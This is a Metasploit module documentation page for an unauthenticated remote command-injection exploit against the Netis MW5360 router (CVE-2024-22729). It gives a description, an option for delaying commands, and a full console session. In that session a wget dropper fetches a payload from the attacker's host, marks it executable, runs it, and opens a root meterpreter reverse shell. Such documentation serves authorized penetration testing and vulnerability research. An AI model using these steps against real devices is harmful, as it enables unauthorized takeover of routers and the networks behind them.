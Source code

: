 ```msf
Description:
  Netis router MW5360 has a command injection vulnerability via the password parameter on the login page.
  The vulnerability stems from improper handling of the "password" parameter within the router's web interface.
  The router's login page authorization can be bypassed by simply deleting the authorization header,
  leading to the vulnerability. All router firmware versions up to `V1.0.1.3442` are vulnerable.
  Attackers can inject a command in the 'password' parameter, encoded in base64, to exploit the command injection
  vulnerability. When exploited, this can lead to unauthorized command execution, potentially allowing the attacker
  to take control of the router.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-22729
  https://attackerkb.com/topics/MvCphsf4LN/cve-2024-22729
  https://github.com/adhikara13/CVE/blob/main/netis_MW5360/blind%20command%20injection%20in%20password%20parameter%20in%20initial%20settings.md

View the full module info with the info -d command.
```
## Options
### CMD_DELAY
Chained command lines using `;` do not work, so each command need to be executed in a separate request
with delay of 30 seconds of more to avoid session locking using the `CMD_DELAY` option.

## Scenarios
###  Netis MW5360 Router Emulation Linux Dropper -  linux/mipsle/meterpreter_reverse_tcp
```msf
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_22729) > set target 0
target => 0
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_22729) > set rhosts 192.168.1.1
rhosts => 192.168.1.1
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_22729) > set lhost 192.168.1.2
lhost => 192.168.1.2
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_22729) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.1:80 can be exploited.
[+] The target appears to be vulnerable. Netis(MW5360)-V1.0.1.3442
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.1.2:8080/IbZMnLDC
[*] Executing wget -qO /tmp/kgfXdZZW http://192.168.1.2:8080/IbZMnLDC
[*] Client 192.168.1.1 (Wget) requested /IbZMnLDC
[*] Sending payload to 192.168.1.1 (Wget)
[*] Executing chmod +x /tmp/kgfXdZZW
[*] Executing /tmp/kgfXdZZW
[+] Deleted /tmp/kgfXdZZW
[*] Meterpreter session 7 opened (192.168.1.2:4444 -> 192.168.1.1:43254) at 2024-05-19 11:51:21 +0000
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
```